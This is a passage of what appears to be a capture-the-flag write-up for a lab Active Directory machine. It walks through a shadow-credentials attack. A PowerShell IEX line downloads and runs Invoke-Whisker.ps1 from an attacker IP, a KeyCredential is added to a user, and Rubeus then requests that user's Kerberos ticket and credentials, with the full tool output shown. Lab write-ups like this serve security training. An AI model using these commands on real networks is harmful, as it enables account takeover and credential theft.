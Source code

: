 ```bash
PS C:\Windows\Temp\Recon> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-Whisker.ps1')
```
After upload it we then can execute the command as follows:
```bash
Invoke-Whisker -Command "add /target:sflowers"
```
This will retrieve a huge command that can be used with [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries):
```bash
PS C:\Windows\Temp\Recon> Invoke-Whisker -Command "add /target:sflowers"
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password lAfNxND7rgF9A5mJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 86d8f569-2258-4ab5-8ce1-0c8befa21b55
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers 
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhY...
vXgICB9A= /password:"lAfNxND7rgF9A5mJ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
But first we need to delete the carrier return and line jump of every line on it, so we can use "tr" and "sponge" commands after saving the output on a file called data:
```bash
cat data | tr -d '\n' | sponge data
```
Finally we need to upload the Rubeus.exe with curl and execute it as indicated by Invoke-Whisker:
```bash

 ______        _
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  1/25/2023 7:28:01 AM
  EndTime                  :  1/25/2023 5:28:01 PM
  RenewTill                :  2/1/2023 7:28:01 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  8hh6He6G6F2lLiBgwgmo3w==
  ASREP (key)              :  EB63CD6F931B4E922AC0EC5439D0C716

```

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation